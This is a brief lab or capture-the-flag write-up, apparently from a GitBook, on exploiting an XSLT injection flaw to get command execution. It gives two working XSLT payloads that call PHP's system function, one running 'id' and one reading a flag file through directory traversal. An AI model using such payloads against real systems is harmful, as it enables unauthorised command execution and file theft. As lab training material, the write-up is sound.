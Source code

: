 # Exploiting XSLT Injection

Exploit the XSLT Injection vulnerability to obtain RCE and read the flag.

To explore this XSLT vulnerability lets try a simple payload first in order to see if the command gets executed:

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

```xml
<xsl:value-of select="php:function('system','id')" />
```

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

And it worked!

After looking arround with the `ls` command, we finnaly managed to get the flag with following payload:

```xml
<xsl:value-of select="php:function('system','cat ../../../../flag.txt')" />
```

<figure><img src="../../../.gitbook/assets/image (156).png" alt=""><figcaption></figcaption></figure>

